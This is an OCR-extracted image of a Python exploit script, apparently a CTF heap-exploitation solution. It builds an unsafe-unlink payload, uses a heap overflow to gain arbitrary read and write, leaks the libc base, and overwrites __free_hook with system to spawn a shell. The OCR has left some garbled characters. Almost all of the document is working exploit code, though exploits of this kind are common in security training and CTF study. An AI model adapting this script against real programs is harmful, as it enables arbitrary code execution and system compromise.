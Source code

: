 ```


ptr = heap_base + 0x1180
payload = p64 (0) + p64 (0x101) + p64 (ptr - 0x18) + p64 (ptr - 0x10) + &#39;\ x00&#39;
    create(0x20, 'name', 0x108, 'overflow') # 4

    create(0x20, 'name', 0x100 - 0x10, 'target') # 5

    create(0x20, '/bin/sh\x00', 0x200, 'to arbitrary read write') # 6



    edit(4, payload) # overflow

    remove(5) # unlink



    edit(4, p64(0x30) + p64(4) + p64(heap_base + 0x11a0) + p64(heap_base + 0x10c0) + '\n')



    def write_to(addr, content, size):

        edit(4, p64(addr) + p64(size + 0x100) + '\n')

        edit(6, content + '\n')



    def read_at(addr):

        edit(4, p64(addr) + '\n')

        cmd(4)

        p.recvuntil('Description: ')

        p.recvuntil('Description: ')

        p.recvuntil('Description: ')

        content = p.recvline()[:-1]

        p.info(content)

        return content



    libc_leak = u64(read_at(heap_base + 0x11e0).ljust(8, '\x00')) - 0x3c4b78

    p.info('libc leak @ 0x%x' % libc_leak)



    write_to(libc_leak + libc.symbols['__free_hook'], p64(libc_leak + libc.symbols['system']), 0x10)

    remove(6)



```